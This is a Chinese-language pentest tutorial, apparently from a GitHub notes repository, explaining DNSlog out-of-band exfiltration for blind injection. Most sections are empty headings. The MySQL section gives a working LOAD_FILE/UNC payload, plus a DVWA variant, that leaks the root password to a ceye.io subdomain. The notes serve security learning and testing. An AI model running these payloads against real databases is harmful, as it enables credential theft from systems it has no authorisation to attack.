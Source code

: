 <!-- TOC -->

- [前言](#前言)
- [DNSlog技术说明](#dnslog技术说明)
- [利用该技术的场景](#利用该技术的场景)
- [技术原理](#技术原理)
- [利用细节](#利用细节)
    - [SQL注入](#sql注入)
        - [MySQL](#mysql)
        - [SQL Server](#sql-server)
        - [Oracle](#oracle)
        - [PostgreSQL](#postgresql)
    - [命令执行](#命令执行)
    - [SSRF](#ssrf)
    - [XSS](#xss)
- [DNSlog平台的搭建](#dnslog平台的搭建)
- [参考](#参考)

<!-- /TOC -->
## 前言
&emsp;我们在测试盲注的时候，发现速度非常慢，那这个时候，爱思考的人就想到了利用DNS来突破这个限制，准确来说是利用DNS的log功能。

## DNSlog技术说明
&emsp;DNSlog注入属于带外通信的一种，英文：Out of Band，简称：OOB。我们之前的注入都是在同一个信道上面的，比如我们之前的联合查询注入，都是做HTTP请求，然后得到HTTP返回包，没有涉及到其他的信道，比如DNS。而带外通信，至少是要涉及到两个信道的。信道：在计算机中，指通信的通道，是信号传输的媒介。


## 利用该技术的场景
&emsp;每项技术都有其利用场景，并非万能的，而DNS log注入技术也是，我们在进行SQL盲注、命令执行、SSRF及XSS等攻击而无法看到回显结果时，就会用到该技术。

## 技术原理
![](https://p4.ssl.qhimg.com/t01a278167ad3a008db.jpg)

如图所示，作为攻击者，提交注入语句，让数据库把需要查询的值和域名拼接起来，然后发生DNS查询，我们只要能获得DNS的日志，就得到了想要的值。所以我们需要有一个自己的域名，然后在域名商处配置一条NS记录，然后我们在NS服务器上面获取DNS日志即可。

简单说就是：DNSLog 用于监测 DNS 和 HTTP 访问记录，可通过HTTP请求，让目标主机主动请求 DNSLog API 地址，有相应的解析记录，则可判定为存在相应的漏洞。

## 利用细节
### SQL注入
#### MySQL
    * 支持load_file()函数（高版本默认不支持）
    * 开启allow_url_fopen（默认开启）

主体语句：`SELECT LOAD_FILE(CONCAT('\\\\',(SELECT password FROM user WHERE user='root' LIMIT 1),'.b182oj.ceye.io\\abc'));`

dvwa实战语句：`'and SELECT LOAD_FILE(CONCAT('\\\\',(SELECT password FROM user WHERE user='root' LIMIT 1),'.b182oj.ceye.io\\abc')) AnD '1'='1`


**UNC路径**

以下是百度的UNC路径的解释
>UNC是一种命名惯例, 主要用于在Microsoft Windows上指定和映射网络驱动器. UNC命名惯例最多被应用于在局域网中访问文件服务器或者打印机。我们日常常用的网络共享文件就是这个方式。

其实我们平常在Widnows中用共享文件的时候就会用到这种网络地址的形式`\\sss.xxx\test\`

这也就解释了为什么CONCAT()函数拼接了4个\了，因为转义的原因，4个就变\成了2个\，目的就是利用UNC路径。

**因为Linux没有UNC路径这个东西，所以当MySQL处于Linux系统中的时候，是不能使用这种方式外带数据**

#### SQL Server

#### Oracle

#### PostgreSQL

### 命令执行

### SSRF

### XSS

## DNSlog平台的搭建
&emsp;在我们实际的渗透中，我们不想使用一些别人家搭建的DNSlog平台，比较还是有可能被记录在别人的服务器上面的，这就涉及到保密的问题，那么就需要有自己可控的DNSlog平台。
&emsp;这里推荐BugScanTeam的 https://github.com/BugScanTeam/DNSLog ，该项目主页是有搭建教程的，按自己的需求搭建。


## 参考
[dnslog利用](http://byd.dropsec.xyz/2016/12/04/dnslog%E5%88%A9%E7%94%A8/)

[Dnslog在SQL注入中的实战](https://www.anquanke.com/post/id/98096)

[突破延迟注入和盲注速度限制，利用dns注入快速获取数据](https://phpinfo.me/2016/05/10/1210.html)

[sqlmap利用DNS进行oob(out of band)注入（转）](https://www.cnblogs.com/backlion/p/8984121.html)


[渗透技巧-mssql盲注与dnslog的完美结合(命令执行)](http://lawlietweb.com/2019/01/11/mssql%E7%9B%B2%E6%B3%A8%E4%B8%8Ednslog%E7%9A%84%E5%AE%8C%E7%BE%8E%E7%BB%93%E5%90%88(%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C)/)

[HawkEye Log/Dns 在Sql注入中的应用](http://docs.hackinglab.cn/HawkEye-Log-Dns-Sqli.html)